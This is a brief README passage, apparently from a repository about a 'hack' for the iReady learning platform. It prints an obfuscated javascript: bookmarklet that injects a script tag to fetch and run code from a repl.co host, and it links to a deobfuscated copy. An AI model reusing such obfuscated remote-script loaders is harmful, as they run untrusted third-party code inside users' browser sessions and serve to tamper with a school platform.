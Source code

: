 You may notice this:
<br/>
`javascript: var _0xe39c = ["src", "script", "createElement", "appendChild", "body", "https://ireadyhack.eclipseeevee.repl.co/script.js"];
(function () {
    document[_0xe39c[4]][_0xe39c[3]](document[_0xe39c[2]](_0xe39c[1]))[_0xe39c[0]] = _0xe39c[5]
})()`
<br/>
And then, you might click the link.
You'll recieve the source code. To save time, I've put it at this link:
<br/>
[https://github.com/LodedWimp/overload-mod/tree/main/deobfuscated/Source](https://github.com/LodedWimp/overload-mod/blob/main/deobfuscated/Source/repl-grab)
